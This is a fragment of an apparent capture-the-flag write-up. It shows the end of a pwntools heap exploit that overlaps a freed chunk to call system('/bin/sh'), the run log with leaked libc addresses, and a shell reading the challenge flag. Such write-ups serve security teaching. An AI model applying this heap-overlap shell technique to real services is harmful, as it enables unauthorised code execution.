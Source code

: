 ```python
print(r.recvlines(3))

## Leak heap address
bin_sh_addr = libc_base + 0x00000000001b45bd

### To reset entities
register(0, 0x20, b'a')
register(0, 0x20, b'a')
register(1, 0x20, b'a')
delete(1)
delete(0)
register(0, 0x18, p64(0) + p64(bin_sh_addr) + p64(system_addr))
trigger_event(1)

r.interactive()
```
```bash
$ python exp.py
[+] Opening connection to 10.113.184.121 on port 10059: Done
[+] Leak libc address = 0x7f890a134b61
[+] Libc base address = 0x7f8909f48000
[+] System address = 0x7f8909f9a290
[b'', b'EVENT: get event named "Default Event"!', b'Invalid command']
[*] Switching to interactive mode
Name: (null)
$ cat /home/chal/flag.txt
flag{Y0u_Kn0w_H0w_T0_0veR1aP_N4me_aNd_EnT1Ty!!!}
```

Flag: `flag{Y0u_Kn0w_H0w_T0_0veR1aP_N4me_aNd_EnT1Ty!!!}`